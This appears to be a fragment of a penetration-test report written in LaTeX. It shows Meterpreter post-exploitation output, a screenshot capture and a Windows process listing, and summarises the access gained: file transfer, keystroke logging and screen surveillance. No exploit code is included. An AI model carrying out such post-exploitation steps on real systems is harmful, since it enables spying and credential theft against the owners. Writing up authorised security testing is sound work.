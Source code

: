 \documentclass[journal,twoside]{IEEEtran}
\begin{document}
\subsubsection{Screenshot Capture}
We captured screenshots of the target system:

\begin{verbatim}
meterpreter > screenshot
Screenshot saved to: /home/shuvo/ajHLsaHQ.jpeg
\end{verbatim}

\subsubsection{Process Information}
We listed running processes on the target system and demonstrated the ability to migrate between processes:

\begin{verbatim}
meterpreter > ps
PID    PPID   Name
---    ----   ----
444    348    services.exe
452    348    lsass.exe
460    348    lsm.exe
564    444    svchost.exe
632    444    svchost.exe
684    444    svchost.exe
748    444    spoolsv.exe
792    444    svchost.exe
840    444    svchost.exe
952    444    svchost.exe
1012   444    svchost.exe
1020   444    svchost.exe
1116   444    taskhost.exe
1172   444    taskhost.exe
1328   792    dwm.exe
1372   1296   explorer.exe
1616   444    svchost.exe
1744   1372   notepad.exe
1840   1372   iexplore.exe
1924   1888   GoogleCrashHandler.exe
1932   1888   GoogleCrashHandler64.exe
2036   444    svchost.exe
\end{verbatim}

\subsection{Results Summary}
The penetration testing activities demonstrated successful exploitation of the target system, providing the following capabilities:

\begin{enumerate}
    \item \textbf{Complete system access}: Full control of the target system was achieved, allowing execution of arbitrary commands.
    \item \textbf{Information gathering}: Detailed system and network information was obtained, including operating system version, architecture, user accounts, and network configuration.
    \item \textbf{File system access}: Complete access to the file system was demonstrated, allowing viewing, downloading, and uploading of files.
    \item \textbf{Keystroke monitoring}: The ability to monitor and record keystrokes was demonstrated, potentially capturing sensitive information such as passwords.
    \item \textbf{Visual surveillance}: The ability to capture screenshots was demonstrated, providing visual information about the target system.
\end{enumerate}
\end{document}
